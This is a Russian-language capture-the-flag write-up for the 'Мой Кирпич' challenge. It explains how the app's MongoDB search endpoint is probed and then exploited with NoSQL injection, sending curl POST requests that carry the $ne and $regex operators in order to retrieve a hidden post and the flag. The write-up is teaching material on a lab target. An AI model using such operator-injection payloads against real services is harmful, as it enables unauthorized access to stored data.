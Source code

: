 # Мой Кирпич: Write-up

Перед нами социальная сеть. Мы можем видеть пять последних постов в целом, пять последних постов конкретного автора или добавлять новые посты.

Зайдём в Консоль разработчика в браузере и изучим, как возвращаются посты. Видим, что с сервера приходит JSON-массив из объектов постов:

```json
[
    {
        "_id": "5ebabc206ec49991593527f9",
        "author": "ivan",
        "text": "Я сегодня поработал на стройке новой школы, не отдавайте туда своих детей никогда!",
        "date": "2020-04-16 05:00:19.193000"
    }, 
    ...
]
```

С полями `author`, `text` и `date` всё понятно, а вот поле `_id` привлекает внимание: у него довольно нестандартное название и интересный формат. Поискав по запросу `database "_id"`, приходим к выводу, что это скорее всего MongoDB.

Обратим внимание на форму поиска по автору и на запрос, который она делает. Запрос уходит в тот же эндпоинт `articles`, только на этот раз это POST-запрос, в теле которого передаётся JSON-объект:

```json
{"author":"ivan"}
```

Если мы посмотрим на [формат запросов поиска в MongoDB](https://docs.mongodb.com/manual/reference/method/db.collection.find/#examples), то заметим, что они выглядят как обычные JSON-объекты. Интересно, как сервер обрабатывает пришедший запрос?

Проверим это, например, передав лишний параметр:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.ugractf.ru/943a294a82819e3defdef052640c2989/articles --data '{"author": "ivan", "bad": true}'
[]
```

Ничего не нашлось. Вероятно, наше поле попало в запрос. Более сложные условия, чем сравнения, в MongoDB выполняются с помощью [*операторов запроса*](https://docs.mongodb.com/manual/reference/operator/). Попробуем, например, оператор `$ne` — неравенство:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.ugractf.ru/943a294a82819e3defdef052640c2989/articles --data '{"author": {"$ne": "ivan"}}'
```

В ответ приходят 5 постов — действительно, мы не видим пост Ивана, но видим ещё один пост от `nagibator1972`. Можно воспользоваться оператором `$nin` и исключить все лишние записи, а можно воспользоваться оператором `$regex` — пост с флагом, скорее всего, содержит `ugra`:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.ugractf.ru/943a294a82819e3defdef052640c2989/articles --data '{"text": {"$regex": "ugra"}}'
```

Мы сразу же получаем пост с флагом.

Флаг: **ugra_escape_not_only_sql_48ae250f3a82**.
